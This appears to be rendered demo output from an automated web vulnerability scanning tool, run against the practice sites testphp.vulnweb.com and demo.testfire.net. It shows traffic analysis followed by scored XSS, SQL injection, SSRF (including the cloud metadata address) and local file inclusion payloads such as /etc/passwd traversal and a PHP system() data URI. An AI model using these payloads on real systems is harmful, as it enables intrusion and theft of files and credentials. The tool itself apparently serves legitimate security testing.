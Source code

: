 ### **Phase 2: Traffic Analysis & Context Extraction**
```
📊 PHASE 2: TRAFFIC ANALYSIS & CONTEXT EXTRACTION
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
🔍 Analyzing simulated HTTP traffic...
   📥 Processing: GET /
      🔧 Technologies: [php]
      🏗️  Frameworks: [php]
      🗄️  Databases: []
   📥 Processing: POST /login
      🗄️  Databases: [mysql]
   📥 Processing: GET /api/users
      🔧 Technologies: [rest_api]
      🏗️  Frameworks: [api]
      🗄️  Databases: [mysql]
   📥 Processing: GET /search?q=test
      📊 Parameters: [q]

🔍 Context Extraction Results:
   🌐 testphp.vulnweb.com:
      🔧 Technologies: [php]
      🏗️  Frameworks: [php]
      🗄️  Databases: []
      📊 Parameters: 0
      🔒 Risk Score: 5.0/10
   🌐 demo.testfire.net:
      🔧 Technologies: []
      🏗️  Frameworks: []
      🗄️  Databases: [mysql]
      📊 Parameters: 0
      🔒 Risk Score: 6.0/10

🧠 Learning Engine Status:
   📈 Traffic Samples: 156
   🎯 Application Profiles: 4
   🔍 Discovered Patterns: 8
   📚 Learned Signatures: 12
```

### **Phase 3: Context-Aware Payload Generation**
```
🎯 PHASE 3: CONTEXT-AWARE PAYLOAD GENERATION
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
🎯 Generating payloads for: testphp.vulnweb.com
   🔧 XSS Payloads:
      • <script>alert('XSS')</script> (Score: 0.76)
      • <img src=x onerror=alert('XSS')> (Score: 0.82)
      • <?php echo '<script>alert("XSS")</script>'; ?> (Score: 0.94)
   🔧 SQLI Payloads:
      • ' OR '1'='1 (Score: 0.68)
      • ' UNION SELECT null-- (Score: 0.71)
      • ' UNION SELECT version(), database(), user()-- (Score: 0.85)
   🔧 SSRF Payloads:
      • http://127.0.0.1 (Score: 0.54)
      • http://localhost (Score: 0.58)
      • http://169.254.169.254/latest/meta-data/ (Score: 0.73)
   🔧 LFI Payloads:
      • ../../../etc/passwd (Score: 0.62)
      • php://filter/read=convert.base64-encode/resou... (Score: 0.89)
      • data://text/plain;base64,PD9waHAgc3lzdGVtKC... (Score: 0.91)
```
